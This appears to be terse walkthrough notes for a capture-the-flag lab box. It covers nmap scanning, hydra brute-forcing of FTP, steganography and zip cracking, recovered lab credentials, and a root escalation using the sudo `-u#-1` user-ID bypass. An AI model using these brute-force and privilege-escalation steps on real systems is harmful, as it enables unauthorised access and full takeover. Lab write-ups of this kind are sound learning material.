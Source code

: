 - 10.10.108.139

- `nmap -sS -sV -A <IP>`
	- 21: ftp
		- open
		- vsftpd 3.0.3
	- 22: ssh
		- OpenSSH 7.6
	- 80: http
		- Apache 2.4.29

- website
	- nothing on Burp
	- gobuster
		- noting
	- HINT:
		- intercept request - change user-agent
		- → **username: chris**

- ftp
	- not anon
	- try to breach chris's password w/ hydra
		- → **chris:crystal**
	- got 3 files:
		- txt with instructions, jpeg, png (stego)
	- `foremost -x <steg_file>`
		- → zip password: **alien**
	- crack zip w/ john
		- → **QXJlYTUx**
		- use for second steg file
		- got second creds
			- **james:hackerrules!**

- ssh
	- james's creds
		- → user flag
	- privilege escalation
		- `sudo l` → (ALL, !root) /bin/bash
		- `sudo -u#-1 /bin/bash`  (1 not l)